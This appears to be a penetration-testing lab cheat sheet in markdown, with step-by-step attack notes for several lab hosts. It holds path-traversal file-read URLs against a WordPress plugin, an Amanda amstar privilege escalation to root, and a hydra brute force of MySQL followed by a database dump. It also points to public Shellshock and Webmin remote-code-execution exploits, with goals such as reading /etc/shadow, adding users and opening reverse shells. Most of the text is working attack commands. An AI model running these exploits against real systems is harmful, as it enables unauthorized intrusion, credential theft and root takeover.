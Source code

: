 ```
http://10.16.1.3/wp-content/plugins/site-import/readme.txt
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php?url=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../../../../../../../etc/passwd
wp-config.php file #has the login creds
```

### Backupadmin

* Priv Esc on box with Amanda running, view by -LFI Exploit

```
fileinfo.php?sha1=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

* ![Screenshot 2021-08-18 081521](https://user-images.githubusercontent.com/75596877/129896411-01115472-b6f1-4219-b143-f55cdb3c2b7d.png)
* ![Screenshot 2021-08-18 081521](https://user-images.githubusercontent.com/75596877/129896519-57dfb207-eaa6-4846-93de-c73a77d4e5ef.png)

```
ls -al /usr/lib/amanda
echo '#!/bin/sh
> /bin/sh' > priv.sh
chmod +x priv.sh
/usr/lib/amanada/application/amstar restore --star-path=/tmp/priv.sh
$ whoami
root
```

#### mysql Brute Force

* mysql 3306 running on the target

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.16.1.11
mysql -u root 10.16.1.11 -p
SHOW DATABASES;
SHOW TABLES FROM helpdesk;
USE helpdesk;
SELECT * FROM ost_form_entry;
```

### IP Fire 2.15

* Brute the admin default \[admin:admin]
* https://github.com/0xskunk/IPFire-2.15-Shellshock-Exploit/blob/master/SIPS.py

### Webmin

* MiniServ 1.890 (Webmin httpd)
* https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890\_exploit.py
* Read /etc/shadow
* Add user
* Reverse Shells
* Read the config files
* Will run as root
